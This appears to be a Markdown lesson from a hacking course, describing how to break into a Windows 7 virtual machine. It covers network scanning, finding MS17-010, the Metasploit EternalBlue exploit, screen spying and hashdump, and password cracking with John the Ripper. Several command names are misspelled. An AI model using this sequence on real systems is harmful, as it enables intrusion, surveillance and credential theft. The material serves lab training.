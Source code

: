 # ♦ Day 13
</br>
</br>

## ◙ ***Getting into Win 7***
 </br>
 
# ♦ Getting into Win 7 : 
   ⇨ In this session we will be learning how to get into a windowsn device and can collect data or spying onto the host pc, for this we will be using a Windows professional device in our local nettwork(Virtual Machine). 
   </br>
   </br>
### ◙ Step-By-Step Guide 

### • 1. Reconnaissance : First of all we will be checking our local network if there arne any other devices connected or not (Note: for this to work in VM make sure both the devices are in same network settings preferrably "NAT Network" </br>
For scanning our local network we will be using ***arp scan*** by using following commands:

    sudo arp-scan -l -I eth1

After this we have to check which one of the device is tht we are looking for so for that we will use ***nmap*** to identify operating systems of all the devices individaually by using:

    sudo nmap -O >Ip add<

### • 2. Search For Vulnerability : Now we will be searching for the vulnerabilities of the ip we confirmed by doing nmap scans now for vulnerability searching we will be using the following command

    nmap -Pn -sV --script vuln -oN vuln-win7-nmap.txt >IP add<

As we can see from above report tht there is a vulnerability availabe by the name "ms17-010".


### • 3. Now we would like to get some details on the this Vulnerability, for that we will be using ***"Searchsploit"*** :

    searchexploit ms17-010

As we acan see there are 6 exploits for this vulnerability, we will be using the one which can be done (Metasploit) cuz it most efficient and easy to do


### • 4. METASPLOIT : The Metasploit Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing and IDS signature development. </br>

• Now to acess metasploit we have to type a command 

    msfconsole

• After getting into msfconsole we have to search for the vulnerability ***"ms17-010"***


• Now select the 1st one with the name ***"Eternalblue"*** by using command ***"use 0"***

    use 0

### • 5. Setting up Msfconsole : 

• Now we have to set up our msfconsole by seeing all the options that wre neede to be filled by watching them carefully ***"Show options"***

    show options

now as we can see above we have to fill LPORT, LHOST, RHOSTS & RPORT by using :

    set RHOSTS >The Recivers Ip<
    set LHOST >The Linux Ip<
    set RPORT >The Reciving Port<
    set LPORT >The Listening Port<

⇨   After setting all tht we just simply have to Use ***"exploit"*** command

     exploit

• Now we have successfully gained the access of the Windows Machine, now we can use ***"help "*** command to get all the details of what can we do in the system, for example :

• screensahre : it is a command by which we can see what is going on the target device in realtime it hosts a realtime screen of the Target
  
    sharescreen
 
• hashdump : command to get all the hash of the password which the Target device is currently holding into it.
    
    hashdump
    
    
• After getting all the hash informations of the user, we have to save it and 

#### ◙ HASH ENUMERATION :
  For this we will be using a tool called John The Ripper with the command:

    john --format=NT --rules -w=/usr/share/wordlists/rockyou.txt hashfile.txt

And now we will finally get the password of our victim device 

# ♦ END

